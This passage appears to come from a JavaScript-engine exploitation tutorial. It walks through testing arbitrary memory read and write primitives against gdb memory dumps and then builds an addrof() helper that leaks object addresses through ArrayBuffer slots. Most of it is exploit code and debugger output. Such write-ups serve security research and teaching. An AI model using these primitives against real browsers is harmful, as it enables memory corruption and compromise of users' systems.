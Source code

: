Let’s test the read primitive by reading some values from pointers we see in gdb:

```
0x3f20d3c6a098: 0x000055fd568dc088  0x000055fd568db828
0x3f20d3c6a0a8: 0x00003f20d3c6a0c8  0x00000000000003e8
0x3f20d3c6a0b8: 0xfffe09cda9d007e0  0xfff8800000000000
0x3f20d3c6a0c8: 0x4141414141414141  0x0000000000000000
0x3f20d3c6a0d8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a0e8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a0f8: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a108: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a118: 0xfffe4d4d4d4d4d4d  0xfffe4d4d4d4d4d4d
0x3f20d3c6a128: 0x00003f20d3c66720  0x000055fd568dc088
0x3f20d3c6a138: 0x000055fd568db828  0x00003f20d3c6a160
0x3f20d3c6a148: 0x0000000000000050  0xfffe09cda9d00820
0x3f20d3c6a158: 0xfff8800000000000  0x4242424242424242
0x3f20d3c6a168: 0x4343434343434343  0x0000000000000000
0x3f20d3c6a178: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a188: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a198: 0x0000000000000000  0x0000000000000000
0x3f20d3c6a1a8: 0x0000000000000000  0xfffe4d4d4d4d4d4d
0x3f20d3c6a1b8: 0xfffe4d4d4d4d4d4d  0x0000000000000000
0x3f20d3c6a1c8: 0x0000000000000000  0x000000000000000
```

```
js> console.log(read64(0x00003f20d3c6a160n).toString(16))
js> console.log(read64(0x00003f20d3c6a168n).toString(16))
js> console.log(read64(0x000055fd568dc088n).toString(16))
```

Writing works as well:

```
write64(0x00003f20d3c6a160n, 0xcafecafecafecafen)
js> console.log(read64(0x00003ed0df26a160n).toString(16))
cafecafecafecafe
```

### One more primitive

Before we think about what we want to read or write we want to create another helper function that gives us the address of an arbitrary JavaScript object. This is very useful if we want to overwrite pointers in certain JavaScript Objects later on.

```
function addrof(obj){
    // Set a new property on the ArrayBuffer, it will be pointed to by the slots pointer (offset 13)
    bBuf.leak = obj
    // read the slots pointer back
    _slots = aBuf[13]
    // dereference the slots pointer and return it (while masking off any pointer tagging)
    return read64(_slots) & 0xffffffffffffn
}
```
